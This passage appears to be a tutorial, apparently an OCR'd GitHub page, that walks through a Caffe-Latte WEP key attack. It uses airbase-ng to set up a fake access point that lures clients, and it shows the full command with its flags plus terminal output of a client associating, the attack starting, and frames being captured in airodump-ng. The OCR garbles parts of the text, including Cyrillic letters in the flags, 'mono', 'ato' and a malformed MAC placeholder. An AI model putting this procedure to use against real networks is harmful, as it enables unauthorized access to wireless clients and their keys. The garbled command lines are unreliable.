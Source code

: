 ## Dummy access point

We create the fake AP to perform the attack with the airbase-ng program we will create the fake access point.

Options:
The -c 7 option will create the access point on channel 7. 
Option -a XX:XX:XX:XX:XX:XX:XX:XX:XX is used to create the access point with this mac address
The -e "XX" option is used to give the name (ESSID) "XX" to the network.
The -L option is used to make airbase-ng adopt the caffelatte attack configuration.
The -W 1 option is used for the network to adopt WEP encryption, if there is a 0 the network will be open.
The -x "XX" option is optional, it is used to send "XX" packets per second once the attack starts.

airbase-ng -c 7 -a XX:XX:XX:XX:XX:XX:XX:XX -e "caffelatte" -L -W 1 -x 100 mon0


``` console
$ airbase-ng -с 7 -а 58:6D:8F:AE:BF:F0 -е "CaffeLatte" -L -W - X 100 mono
12:25:25  Created tap interface ato
12:25:25  Trying to set MTU on ato to 1500
12:25:25  Access Point with BSSID 58:6d:8F:AE:BF:F0 started.

```

## Start the Attack :)))

When the client connects to the network it will associate to it and start the attack, the status of the attack will be shown in the airbase-ng terminal.


``` console
12:20:15   Client 64:70:02:2b:4E:2F associated (WEP) to ESSID: "CaffeLatte"
12:20:15   Client 64:70:02:2b:4E:2F associated (WEP) to ESSID: "CaffeLatte"
12:20:15   Client 64:70:02:2b:4E:2F associated (WEP) to ESSID: "CaffeLatte"
12:20:15   Client 64:70:02:2b:4E:2F associated (WEP) to ESSID: "CaffeLatte"
12:20:15   Client 64:70:02:28:4E:2F associated (WEP) to ESSID: "CaffeLatte"
12:20:15   Client 64:70:02:2b:4E:2F associated (WEP) to ESSID: "CaffeLatte"
12:20:15   Client 64:70:02:2b:4E:2F associated (WEP) to ESSID: "CaffeLatte"
12:20:15   Client 64:70:02:2b:4E:2F associated (WEP) to ESSID: "CaffeLatte"
12:20:15   Client 64:70:02:2b:4E:2F associated (WEP) to ESSID: "CaffeLatte"
12:20:15   Client 64:70:02:2b:4E:2F associated (WEP) to ESSID: "CaffeLatte"
12:20:15   Client 64:70:02:2b:4E:2F associated (WEP) to ESSID: "CaffeLatte"
12:20:15   Client 64:70:02:2b:4E:2F associated (WEP) to ESSID: "CaffeLatte"
12:20:15   Client 64:70:02:28:4E:2F associated (WEP) to ESSID: "CaffeLatte"
12:20:16   Starting Caffe-Latte attack against 64:70:02:28:4E:2F at 100 pps.
```

We will see in airodump-ng that the client has connected and starts transmitting frames.

``` console
CH 7 1[ Elapsed: 36 S 1[ 2013-09-05 12:21
BSSID                PWR RXQ Beacons   #Data, #/s CH MB   ENC CIPHER AUTH ESSID
58:6D:8F:AE:BF:F0    O   O   741       61     1   7  54   WEP WEP         CaffeLatte

BSSID                STATION            PWR   Rate    Lost    Frames  Probe
58:6D:8F:AE:BF:F0    64:0B:3A:1C:**:**  -40   0 - 1      0      1836
```
